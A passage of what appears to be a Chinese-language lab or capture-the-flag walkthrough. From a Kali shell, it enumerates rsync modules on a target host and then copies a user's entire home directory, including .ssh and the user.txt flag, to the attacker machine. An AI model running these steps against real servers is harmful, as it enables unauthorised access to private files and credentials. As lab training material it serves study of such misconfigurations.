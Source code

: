 获取目标主机上的 rsync 模块列表

```
┌──(root㉿kali)-[~]
└─# rsync rsync-connect@10.10.68.178::          
files           Necessary home interaction
```

1 rsync modules found: files

要同步的模块名称是files。

```
┌──(root㉿kali)-[~]
└─# rsync -avz rsync-connect@10.10.68.178::files /root/Downloads/
Password: 
receiving incremental file list
./
sys-internal/
sys-internal/.Xauthority
sys-internal/.bash_history -> /dev/null
sys-internal/.bash_logout
sys-internal/.bashrc
sys-internal/.dmrc
sys-internal/.profile
sys-internal/.rediscli_history -> /dev/null
sys-internal/.sudo_as_admin_successful
sys-internal/.xscreensaver
sys-internal/.xsession-errors
sys-internal/.xsession-errors.old
sys-internal/user.txt
sys-internal/.cache/

...

sys-internal/.ssh/
sys-internal/.thumbnails/
sys-internal/.thumbnails/large/
sys-internal/.thumbnails/normal/
sys-internal/.thumbnails/normal/2b53c68a980e4c943d2853db2510acf6.png
sys-internal/.thumbnails/normal/473aeca0657907b953403884c53d865c.png
sys-internal/.thumbnails/normal/539380d1cb60fcd744fd5094d314fdc1.png
sys-internal/Desktop/
sys-internal/Documents/
sys-internal/Downloads/
sys-internal/Music/
sys-internal/Pictures/
sys-internal/Public/
sys-internal/Templates/
sys-internal/Videos/

sent 28,064 bytes  received 16,468,242 bytes  22,398.24 bytes/sec
total size is 41,708,382  speedup is 2.53
```
